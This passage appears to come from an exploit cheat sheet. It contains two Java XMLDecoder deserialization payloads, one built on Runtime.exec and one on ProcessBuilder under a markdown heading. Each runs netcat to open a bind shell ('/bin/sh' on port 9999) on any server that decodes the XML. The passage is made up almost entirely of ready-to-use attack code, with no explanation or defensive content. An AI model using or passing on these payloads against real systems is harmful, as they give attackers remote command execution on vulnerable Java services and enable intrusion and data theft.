<?xml version="1.0" encoding="UTF-8"?>
<java version="1.7.0_21" class="java.beans.XMLDecoder">
 <object class="java.lang.Runtime" method="getRuntime">
      <void method="exec">
      <array class="java.lang.String" length="6">
          <void index="0">
              <string>/usr/bin/nc</string>
          </void>
          <void index="1">
              <string>-l</string>
          </void>
          <void index="2">
              <string>-p</string>
          </void>
          <void index="3">
              <string>9999</string>
          </void>
          <void index="4">
              <string>-e</string>
          </void>
          <void index="5">
              <string>/bin/sh</string>
          </void>
      </array>
      </void>
 </object>
</java>
```

#### [ProcessBuilder](#toc_processbuilder)

```plain
<?xml version="1.0" encoding="UTF-8"?>
<java version="1.7.0_21" class="java.beans.XMLDecoder">
  <void class="java.lang.ProcessBuilder">
    <array class="java.lang.String" length="6">
      <void index="0">
        <string>/usr/bin/nc</string>
      </void>
      <void index="1">
         <string>-l</string>
      </void>
      <void index="2">
         <string>-p</string>
      </void>
      <void index="3">
         <string>9999</string>
      </void>
      <void index="4">
         <string>-e</string>
      </void>
      <void index="5">
         <string>/bin/sh</string>
      </void>
    </array>
    <void method="start" id="process">
    </void>
  </void>
</java>
```
